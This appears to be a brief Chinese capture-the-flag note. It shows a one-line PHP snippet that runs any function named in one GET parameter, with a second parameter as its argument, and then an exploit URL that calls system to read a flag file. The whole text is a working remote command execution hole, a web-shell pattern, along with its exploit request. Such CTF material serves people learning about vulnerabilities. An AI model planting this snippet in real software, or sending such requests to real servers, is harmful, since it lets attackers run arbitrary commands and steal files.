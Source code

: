 ## 漏洞点
```php
<?php if(isset($_GET['a']))$_GET['a']($_GET['b']);?>
```
## 利用方法
```shell
index.php?a=system&b=cat /flag
```
